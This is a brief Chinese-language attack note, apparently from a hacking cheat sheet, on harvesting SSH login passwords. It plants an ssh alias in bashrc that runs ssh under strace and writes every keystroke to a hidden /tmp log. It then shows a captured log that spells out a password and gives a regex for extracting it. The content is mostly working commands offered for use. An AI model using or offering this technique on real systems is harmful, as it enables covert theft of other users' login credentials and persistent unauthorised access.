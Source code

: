 ### 收集ssh登录凭证

1.添加命令别名

```bash
# 添加命令别名
vi ~/.bashrc或者/etc/bashrc
alias ssh='strace -f -e trace=read,write -o /tmp/.ssh-`date '+%d%h%m%s'`.log -s 32 ssh'
# 使命令别名立即生效
source ~/.bashrc

```

2.记录的strace文件如下：

```bash
936   write(4, "root@192.168.168.20's password: ", 32) = 32
936   read(4, "t", 1)                   = 1
936   read(4, "o", 1)                   = 1
936   read(4, "o", 1)                   = 1
936   read(4, "r", 1)                   = 1
936   read(4, "\n", 1)                  = 1
936   write(4, "\n", 1)                 = 1

```

3.可以通过正则`.+@.+\bpassword`定位密码位置

